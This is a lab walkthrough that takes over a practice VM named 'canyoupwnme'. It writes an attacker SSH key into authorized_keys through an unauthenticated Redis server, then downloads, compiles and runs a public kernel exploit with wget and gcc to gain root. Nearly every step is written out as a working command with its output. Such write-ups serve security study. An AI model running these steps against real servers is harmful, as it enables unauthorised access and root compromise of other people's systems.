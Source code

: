 # Redis

By exploiting the Redis' vulnerability presented by antirez in
[his blog post](http://antirez.com/news/96), we'll try to get access to the
target machine.

## Port scanning to identify Redis

Let's try to scan the target machine (`canyoupwnme`) with `nmap`

    $ nmap -A -T4 -sT -p1-65535 canyoupwnme
    ...
    1322/tcp  open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
    ...
    6379/tcp  open  redis       Redis key-value store
    ...

Seems that Redis is binded on the default port and SSH on custom port 1322.

## Check for Redis AUTH

By using `telnet`, verify if Redis requires authentication

    $ telnet canyoupwnme 6379
    Trying 10.0.100.195...
    Connected to canyoupwnme.pentest.
    Escape character is '^]'.
    echo "You can pwn me!!!"
    $15
    You can pwn me!!!
    quit
    +OK
    Connection closed by foreign host.

Yep! Redis does not require AUTH. Before going ahead, let's get some system
information via Redis `INFO` command

    $ redis-cli -h canyoupwnme
    canyoupwnme:6379> INFO
    # Server
    redis_version:3.0.7
    ...
    os:Linux 3.19.0-25-generic i686
    arch_bits:32
    ...
    gcc_version:4.8.4
    ...
    config_file:/etc/redis/6379.conf
    ...

## Preparing the SSH key

The antirez's attack exploits Redis to upload the SSH pubkey on the target
machine. Let's start by creating a new set of keys that we use to access the
machine.

    $ mkdir ssh-redis
    $ ssh-keygen -f ./ssh-redis/attacker

## Identify the right path on the target machine

By using `redis-cli` tool as oracle, we identify user's home path(s). The idea
is to exploit the `redis-cli` return messages.

    $ redis-cli -h canyoupwnme CONFIG SET dir "/root"
    OK

    $ redis-cli -h canyoupwnme CONFIG SET dir "/xxx/yyy"
    (error) ERR Changing directory: No such file or directory

By using a usernames wordlist and a simple Python script we iterate over all
the usernames in order to check all the paths formed as follows

    /home/<username>/.ssh

After a while, we get the following path

    /home/user/.ssh

## Do the attack

As indicated by antirez, the idea at the base of the attack is to use the
`SAVE` command to overwrite the `authorized_keys` file of the victim. All the
attack's steps are well explained in the antirez's blog.

*   Generating the blob to be injected

        $ echo -e '\n\n' >> blob.txt
        $ cat ssh-redis/attacker.pub >> blob.txt
        $ echo -e '\n\n' >> blob.txt

*   Getting the current Redis' configuration (`dir` is already set due to the
    previous path's identification phase)

        $ redis-cli -h canyoupwnme
        canyoupwnme:6379> CONFIG GET dir
        1) "dir"
        2) "/home/user/.ssh"
        canyoupwnme:6379> CONFIG GET dbfilename
        1) "dbfilename"
        2) "dump.rdb"

*   Update the Redis' configuration

        $ redis-cli -h canyoupwnme
        canyoupwnme:6379> CONFIG SET dbfilename "authorized_keys"
        canyoupwnme:6379> CONFIG GET dir
        1) "dir"
        2) "/home/user/.ssh"
        canyoupwnme:6379> CONFIG GET dbfilename
        1) "dbfilename"
        2) "authorized_keys"

*   Do the attack

        $ # flushing the current Reids' db
        $ redis-cli -h canyoupwnme flushall
        OK
        $ # set the `sshblob` key with the SSH pubkey value
        $ cat blob.txt | redis-cli -h canyoupwnme -x set sshblob
        OK
        $ # save the current db in /home/user/.ssh/authorized_keys file
        $ redis-cli -h canyoupwnme save
        OK

*   Try the SSH login

        $ ssh -l user -i ssh-redis/attacker canyoupwnme -p1322

          G:                ,;
          E#,    :        f#i                        .Gt  t    j.
          E#t  .GE      .E#t                        j#W:  Ej   EW,
          E#t j#K;     i#W,     t      .DD.       ;K#f    E#,  E##j
          E#GK#f      L#D.      EK:   ,WK.      .G#D.     E#t  E###D.
          E##D.     :K#Wfff;    E#t  i#D       j#K;       E#t  E#jG#W;
          E##Wi     i##WLLLLt   E#t j#f      ,K#f   ,GD;  E#t  E#t t##f
          E#jL#D:    .E#L       E#tL#i        j#Wi   E#t  E#t  E#t  :K#E:
          E#t ,K#j     f#E:     E#WW,          .G#D: E#t  E#t  E#KDDDD###i
          E#t   jD      ,WW;    E#K:             ,K#fK#t  E#t  E#f,t#Wi,,,
          j#t            .D#;   ED.                j###t  E#t  E#t  ;#W:
           ,;              tt   t                   .G#t  E#t  DWi   ,KK:
                                                      ;;  ,;.

                                                           by canyoupwn.me

        Welcome to Ubuntu 14.04.3 LTS (GNU/Linux 3.19.0-25-generic i686)

         * Documentation:  https://help.ubuntu.com/

          System information as of Fri Apr 15 10:50:08 EEST 2016

          System load: 0.0               Memory usage: 3%   Processes:       79
          Usage of /:  32.5% of 6.50GB   Swap usage:   0%   Users logged in: 0

          Graph this data and manage this system at:
            https://landscape.canonical.com/

        151 packages can be updated.
        79 updates are security updates.

        Last login: Thu Apr 14 20:02:53 2016 from kali.pentest
        user@canyoupwnme:~$ whoami
        user
        user@canyoupwnme:~$ pwd
        /home/user

## Getting `root` privileges

We got access in the target machine. Now let's try to get a `root` access. We
already obtained the kernel version with Redis `INFO` command.
Just to be sure...

    $ uname -a
    Linux canyoupwnme 3.19.0-25-generic #26~14.04.1-Ubuntu SMP Fri Jul 24 21:18:00 UTC 2015 i686 i686 i686 GNU/Linux

The kernel version is `3.19.0-25-generic` that was built on
`Fri Jul 24 21:18:00 UTC 2015`. After a while, the following exploit seems to
be ok

    https://www.exploit-db.com/exploits/39166

Let's try it...

    $ pwd
    /home/user
    $ id
    uid=1000(user) gid=1000(user) groups=1000(user),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(sambashare),115(lpadmin)
    $ mkdir tmp
    $ cd tmp
    $ wget https://www.exploit-db.com/download/39166 -O poc.c
    $ gcc poc.c -o poc.bin
    $ ./poc.bin
    # id
    # uid=0(root) gid=1000(user) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(sambashare),115(lpadmin),1000(user)

Got it!
